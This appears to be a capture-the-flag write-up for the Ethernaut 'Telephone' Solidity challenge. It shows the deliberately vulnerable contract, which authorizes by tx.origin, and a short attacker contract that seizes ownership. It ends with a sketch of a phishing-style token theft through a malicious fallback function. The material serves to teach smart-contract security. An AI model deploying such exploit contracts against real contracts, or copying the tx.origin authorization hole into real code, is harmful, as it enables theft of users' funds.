 # Telephone
_difficulty 1/10_

Claim ownership of the contract below to complete this level.  
Things that might help  
- See the Help page above, section "Beyond the console"

## Sources

```javascript
pragma solidity ^0.4.18;

contract Telephone {

  address public owner;

  function Telephone() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

## Level author  
Kyle Riley  
kyle@iosiro.com  
https://github.com/syncikin  

## Solution

1. Get instance address.  
`contract.instance`

2. Using Remix, deploy the `StealYourPhone.sol`.  
```javascript
pragma solidity ^0.4.18;

contract StealYourPhone {
    function changeOwner(address _telephone) {
        Telephone(_telephone).changeOwner(msg.sender);
    }
}
```

3. Invoke the `changeOwner` method and pass instance address as a parameter  
This works because the `tx.origin` will be the user that invoked the transaction, while the `msg.sender` will be the last contract that forwarded the function call.  

4. Check contract owner.  
`await contract.owner()`

4. Submit instance 🎉

## Lesson
While this example may be simple, confusing `tx.origin` with `msg.sender` can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/).  
An example of a possible attack is outlined below.  
1. Use tx.origin to determine whose tokens to transfer, e.g.
```javascript
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}
```
2. Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.  
```javascript
function () payable {
  token.transfer(attackerAddress, 10000);
}
```
3. In this scenario, tx.origin will be the victim's address (while msg.sender will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker.

